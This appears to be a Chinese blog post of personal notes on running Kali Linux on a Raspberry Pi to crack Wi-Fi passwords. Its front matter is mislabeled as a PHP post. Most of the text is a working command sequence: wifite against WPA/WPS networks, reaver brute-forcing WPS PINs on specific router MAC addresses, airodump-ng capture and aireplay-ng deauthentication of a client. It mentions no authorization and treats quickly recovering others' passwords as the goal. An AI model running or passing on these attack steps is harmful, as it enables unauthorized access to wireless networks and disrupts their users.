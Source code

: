 ```yaml
---
layout: post
title: 在树莓派上使用 Kali 进行"渗透测试"
category: PHP
tags: [命名空间, PHP]
latest: 2015年12月4日 14:10:44
---
```


Kali 是 BT 的前身，在渗透领域目前还没有发现比 Kali 更专业的 Linux 了。

Kali for Raspberry
-

在 Linux 虚拟机或者 Live 镜像中刻录 Kali 镜像到 MiniSD/TF 卡：

```
dd if=kali-pi.img of=/dev/sdb bs=512k
```

- **如何查看 U 盘挂载那个文件上了？Sdb sdb2 sdb1 ?**

- **开启远程桌面服务**

```
$ sudo apt-get install xrdp
$ sudo service xrdp start
```

- **用一条网线连接树莓派和笔记本**

`arp -a` 后 `192.168.137.1` 下面不一定非是动态的才是树莓派上 Kali 获得的 IP，静态的也有可能

```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
```

树莓派跑 pin
-

```
lsusb

apt-get install screen    # 为了可以 SSH 离线

apt-get install cowpatty 	# 不安装运行该程序的时候会提示

iwconfig

screen

wifite
```

寻找绿色信号的 带有wpa/wpa2 标志的、带有wps标志的目标。
 
然后天线找到最佳位置后按 ctrl+c，在下面新出现的一行输入你选定的目标行号，回车确定后就开始了自动探测。

破解时间快的话甚至可以秒破，慢的话就不好说了。

`~` 目录下将保存 wifi 的密码。


- **使用 reaver 破解开启 wps 功能的路由器密码**

```
reaver  -i  mon0  -b 8C:21:0A:5F:A2:FA  -a  -S  -vv  -d2  -t 5 -c 1
airmon-ng start wlan0
airodump-ng mon0
```

Aircrack-ng
-

```
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon

airmon-ng start wifi0 9

reaver -i mon0 -b F8:D1:11:31:50:24 -vv -c 6 -p 88948935
```

- **搜索不到无线?**

重置网络。

- **执行 `airmon-ng start wlan0` 提示错误，执行 `airodump wlan0mon`失败?**

```
sudo apt-get install rfkill
```


- Failed to associate with … …
- Request occur timeout … …

```
airodump-ng -c 6 –w wpa-wps wlan0mon

aireplay-ng -0 10 -a 50:BD:5F:0F:B9:BA -c BC:3A:EA:60:6C:61 wlan0mon

Screen 的使用
-

```
screen -S cracking

screen -r cracking
```

- `exit`             # 退出 screen 会话
- `screen -ls`       # 查看所有 screen 会话
- `screen -wipe`     # 删除会话

参考
-

- <http://os.ctocio.com.cn/68/12957068.shtml>

- <http://shumeipai.nxez.com/2013/10/15/raspberry-pi-and-a-network-cable-directly-connected-laptop.html>

- <http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists>

- <http://www.oschina.net/question/12_7909>

- <http://www.aircrack-ng.org/doku.php?id=cracking_wpa>

- <http://www.openwall.com/john/>

- [树莓派(raspberrypi)安装aircrack-ng,reaver及wifi破解教程[整理] | FindSpace](http://www.findspace.name/res/1184)
